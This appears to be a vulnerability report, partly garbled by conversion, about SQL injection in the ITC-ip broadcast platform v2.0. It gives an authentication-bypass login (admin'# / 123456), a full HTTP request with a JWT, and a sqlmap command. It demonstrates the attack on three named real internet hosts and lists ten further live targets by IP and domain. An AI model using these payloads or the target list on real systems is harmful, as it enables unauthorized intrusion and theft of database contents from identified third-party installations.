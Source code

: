 sql injection exists in ITC-ip service broadcast platform of Guangdong Paulan Electronics Co., LTD

Vulnerability Description 

There is sql injection in the background of ITC-ip service broadcasting platform of Guangdong Baolun Electronics Co., LTD. Attackers can obtain sensitive database information through this vulnerability

Certificate of Company assets

![img](file:///C:\Users\陈诺\AppData\Local\Temp\ksohtml29032\wps1.jpg) 

https://pa.itc-pa.cn/

Affects Version: v2.0

Influence routing:

/api/v2/maps?page=1&limit=10&orderColumn=id\*&orderType=desc&likeName=

injection parameter:orderColumn

Space mapping： icon_hash="-568806419"

![img](file:///C:\Users\陈诺\AppData\Local\Temp\ksohtml29032\wps2.jpg) 

Note: The vulnerability needs to log in to the background to obtain valid credentials to be carried out, you can use the front desk universal password    -admin‘#  Password-free access

Example I

 

 

http://60.170.49.111:81/login

use     admin’#/123456   Login successfully

![img](file:///C:\Users\陈诺\AppData\Local\Temp\ksohtml29032\wps3.jpg) 

Call the following interface for sql injection, the cookie is time-sensitive, please review and replace it by yourself

GET /api/v2/maps?page=1&limit=10&orderColumn=id*&orderType=desc&likeName= HTTP/1.1

Host: 60.170.49.111:81

Accept: application/json, text/plain, */*

X-Requested-With: XMLHttpRequest

authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE3MTYzOTgwOTgsImlhdCI6MTcxNjM5MDU5OCwiaXNzIjoiSVAiLCJwbGF0Zm9ybSI6IndlYiIsInN1YiI6ImFsbCIsInR5cCI6IkpXVCIsInVzZXJzX2lkIjoyfQ.bap1Bl--bYOVdzaFvQCLVPLSSHCb43XEfacMzcOnr5k

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36 Edg/125.0.0.0

Referer: http://60.170.49.111:81/monitor/map

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9

Connection: close

 

 

 

***\*python sqlmap.py -r ../url.txt --batch\**** 

![img](file:///C:\Users\陈诺\AppData\Local\Temp\ksohtml29032\wps4.jpg) 

Instance II

[***\*http://110.53.52.41:82/login\****](http://110.53.52.41:82/login)

use admin'# / 123456 Login successfully

![img](file:///C:\Users\陈诺\AppData\Local\Temp\ksohtml29032\wps5.jpg) 

Call the following interface for sql injection, the cookie is time-sensitive, please review and replace it by yourself

 

***\*GET /api/v2/maps?page=1&limit=10&orderColumn=id\*&orderType=desc&likeName= HTTP/1.1\****

***\*Host: 110.53.52.41:82\****

***\*Accept: application/json, text/plain, \*/\*\****

***\*X-Requested-With: XMLHttpRequest\****

***\*authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE3MTYzOTgwOTgsImlhdCI6MTcxNjM5MDU5OCwiaXNzIjoiSVAiLCJwbGF0Zm9ybSI6IndlYiIsInN1YiI6ImFsbCIsInR5cCI6IkpXVCIsInVzZXJzX2lkIjoyfQ.bap1Bl--bYOVdzaFvQCLVPLSSHCb43XEfacMzcOnr5k\****

***\*User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36 Edg/125.0.0.0\****

***\*Referer: http://60.170.49.111:81/monitor/map\****

***\*Accept-Encoding: gzip, deflate\****

***\*Accept-Language: zh-CN,zh;q=0.9\****

***\*Connection: close\****

 

 

 

***\*python sqlmap.py -r ../url.txt --batch\**** 

![img](file:///C:\Users\陈诺\AppData\Local\Temp\ksohtml29032\wps6.jpg) 

***Instance Ⅲ***

[***\*http://111.34.17.42:81/login\****](http://111.34.17.42:81/login)

*use admin'# / 123456 Login successfully*

![img](file:///C:\Users\陈诺\AppData\Local\Temp\ksohtml29032\wps7.jpg) 

Call the following interface for sql injection, the cookie is time-sensitive, please review and replace it by yourself

 

GET /api/v2/maps?page=1&limit=10&orderColumn=id*&orderType=desc&likeName= HTTP/1.1

Host: 111.34.17.42:81

Accept: application/json, text/plain, */*

X-Requested-With: XMLHttpRequest

authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE3MTYzOTgwOTgsImlhdCI6MTcxNjM5MDU5OCwiaXNzIjoiSVAiLCJwbGF0Zm9ybSI6IndlYiIsInN1YiI6ImFsbCIsInR5cCI6IkpXVCIsInVzZXJzX2lkIjoyfQ.bap1Bl--bYOVdzaFvQCLVPLSSHCb43XEfacMzcOnr5k

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36 Edg/125.0.0.0

Referer: http://60.170.49.111:81/monitor/map

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9

Connection: close

 

***\*python sqlmap.py -r ../url.txt --batch\****

![img](file:///C:\Users\陈诺\AppData\Local\Temp\ksohtml29032\wps8.jpg) 

 

Other cases

\4. http://221.182.106.148:81/

\5. http://218.206.129.237:81/

\6. http://120.236.127.42:81/

\7. http://118.121.231.180:8181/login

\8. http://blojj2.sfsyxx.cn:81/login

\9. http://60.170.49.111:81/login

\10. http://58.42.97.3:81/login

\11. http://47.109.137.239/login

\12. http://61.157.98.107:8025/audio/media

\13. http://qjjsxy.com:81/login

 

# CNVD certificate number

CNVD-YCGW-202405084002

